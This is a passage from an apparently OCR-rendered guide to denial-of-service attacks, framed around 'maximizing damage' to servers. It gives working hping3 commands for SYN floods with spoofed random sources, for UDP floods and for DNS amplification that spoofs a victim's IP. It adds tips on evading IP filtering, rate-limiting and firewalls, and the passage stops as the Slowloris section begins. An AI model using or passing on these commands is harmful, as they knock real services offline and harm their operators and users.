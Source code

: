     **Maximizing Damage** :

  - Combine protocols (e.g., TCP + HTTP) to overload multiple server components (network, CPU, memory).
  - Use amplification for massive bandwidth consumption.
  - Target weak points: database connections, low timeout settings, or unoptimized APIs.

  ## 3. Tool-by-Tool Usage and Efficiency

  ### 3.1 hping3

  **Purpose** : Craft custom TCP/UDP/ICMP packets for floods or amplification.

  - **Protocols** : TCP, UDP, ICMP.
  - **Strengths** : Precise control over packet structure, supports spoofing, high-speed floods.
  - **Usage** :
  - **SYN Flood** (overwhelms connection table):

    ```bash
    hping3 -S -p 80 --flood --rand-source <target_ip>
    ```

    - `-S`: SYN packets.
    - `--flood`: Maximum speed.
    - `--rand-source`: Spoof random source IPs.

  - **UDP Flood** (consumes bandwidth):

    ```bash
    hping3 -2 -c 10000 -p 53 --flood <target_ip>
    ```

    - `-2`: UDP mode.
    - `-c 10000`: Send 10,000 packets.

  - **Amplification Test** (e.g., DNS):

    ```bash
    hping3 -2 -p 53 --spoof <victim_ip> --data 40 <dns_server_ip>
    ```

    - Spoof victim’s IP to send large DNS responses.

  - **Efficiency Tips** :
  - Use `--rand-source` to evade IP-based filtering.
  - Target specific ports (e.g., 80, 443, 53) based on server services.
  - Combine with other tools for multi-vector attacks.
  - **Defense Bypass** :
  - Spoofed IPs bypass rate-limiting.
  - UDP-based attacks evade TCP-focused firewalls.

  ### 3.2 Slowloris

  **Purpose** : Exhaust server connections with partial HTTP requests.

  - **Protocols** : HTTP/HTTPS (Layer 7).
  - **Strengths** : Low bandwidth, stealthy, effective against Apache with default settings.
  - **Usage** :
  - Command:
